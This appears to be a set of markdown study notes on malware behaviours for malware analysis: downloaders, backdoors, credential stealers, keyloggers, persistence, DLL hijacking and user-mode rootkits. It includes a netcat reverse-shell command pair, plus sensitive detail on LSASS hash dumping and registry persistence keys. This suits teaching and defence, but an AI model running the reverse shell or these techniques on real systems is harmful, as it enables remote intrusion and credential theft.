


# 11 Malware Behaviours

## Downloaders and Launchers

### Downloaders
 - Get another piece of malware from the internet.
 - Execute on local system
 - Win32:
   - URLDownloadtoFileA

### Launchers
 - Malware designed to load (A.K.A. Loader)
 - Used for installing malware
 - Often has containing malware that is designed to load

## Backdoors
 - Provides remote access to victim’s machine
 - Communicates over internet
 - Functionalities:
   - Manipulate registry keys
   - enumerate display windows
   - Create/modify directories
   - Search files

### Reverse Shell
 - Provides attacker shell access
 - Ability to execute any commands, as if they were on the local system

### Netcat Reverse Shells
 - Use of nc command:
   - Attacker listen: nc -l -p 80
   - Victim execute: nc listener_ip 80 -e cmd.exe

### Windows Reverse Shells
 - Uses cmd.exe process: Basic and multithreaded
 - Win32:
   - CreateProcess
   - CreateThread
   - CreatePipe

### RATs
 - Remotes Administration Tool

### Botnets
 - Collection of compromised hosts (A.K.A. zombies)
 - Controlled by a bonnet controller
 - Comprise as many host as possible
 - Perform distributed denial-of-service (DDoS)

## Credential Stealers
 - Common methods:
   - Wait for user login
   - Keyloggers
   - Dump information stored locally

### GINA Interception
 - Graphical Identification and Authentication (GINA):
   - Customise window login process
   - Add support for 3rd party authentication methods
 - Man-In-The-Middle attack:
   - third-party DLLs loaded by Winlogon
   - Malicious DLL intercepts function calls and log data
   - HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\GinaDLL

### Hash Dumping
 - Grab hashes:
   - Attempt to crack them for credentials
   - Possible to directly use hash for authentication as well
 - pass-the-hash attack:
   - LM and NTLM hashes
   - Pwdump and the Pass-the-Hash (PSH) Toolkit
 - Pwdump:
   - Program that outputs the LM and NTLM password
   - Security Account Manager (SAM)
   - DLL injection inside the Local Security Authority Subsystem Service (LSASS) 
   - lsaext.dll: calls GetHash method
   - SAM functions (undocumented by microsoft):
     - SamIConnect - connect to saml
     - SamrQueryInformationUser - for each user on the system
     - SamIGetPrivateData - extract hash
     - SystemFunction025 - decryption
     - SystemFunction027 - decryption
 - PSH Toolkit:
   - whosthere-alt: dumps the SAM by injecting a DLL into lsass.exe
   - API functions:
     - LsaEnumerateLogonSessions:
       - Obtain list of locally unique identifiers (LUIDs)
       - Usernames and domains for each logon
     - NlpGetPrimaryCredential:
       - Non-exported function in the msv1_0.dll
       - Used to dump the NT and LM hashes

## Keystroke Logging
 - Observe typed data like usernames and passwords
 - Kernel-Based:
   - Part of a rootkit
   - Act as keyboard drivers
   - Bypass user-space programs and protection
 - User-Space:
   - Log keypress using Win32 API, uses hooking or polling
   - Hooking:
     - SetWindowsHookEx
   - Polling:
     - GetAsyncKeyState – determine if a key has been pressed
     - GetForegroundWindow – which app is used for keyboard entry
     - 
 - Identify in Strings:
   - 

## Persistence Mechanisms
 - Methods to allow malware to be active in a system for a long time

### Windows Registry
 - AppInit_DLLs:
   - HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows
   - Space-delimited string of DLLs
 - Winlogon Notify:
   - HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\
   - Hook malware to a particular Winlogon event
 - SvcHost DLLs:
   - HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Svchost
   - HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\ServiceName
   - Installed as a Windows service

### Trojanized System Binaries
 - Malware patches bytes of a system binary
 - Force the system to execute the malware
 - Use MD5 hash to spot modification of system binary
 -   

### DLL Load-Order Hijacking
 - Typical Windows XP load order:
   - Application’s directory
   - Current directory
   - System directory (\Windows\System32\)
   - 16-bit system directory (\Windows\System\)
   - Windows directory (\Windows\)
   - Directories listed in PATH
 - KnownDLLs registry key:
   - List of specific DLL locations
   - These DLLs commonly used by applications
   - Malicious DLLs can’t be placed higher in load order
   - Not fully protected due to recursive imports
 - E.g. explorer.exe:
   - /Windows directory is checked before /System32
   - ntshrui.dll is placed in /Windows, it will be loaded in place of the legitimate DLL

## Privilege Escalation
 - Malware/attacker gaining administrator access to attack system-level processes

### SeDebugPrivilege
 - Set access token’s rights to enable SeDebugPrivilege (AdjustTokenPrivileges)

## User-Mode Rootkits
 - Tool to hide malicious activity
 - Make malware activities invisible to other programs

### IAT Hooking
 - Modifies import address table (IAT) or the export address table (EAT)
 - Maps the target function memory address to the malicious code
 - Old and easily detectable form of hooking

### Inline Hooking
 - Overwrites the API function code contained in the imported DLLs
 - Replace the start of the code with a jump
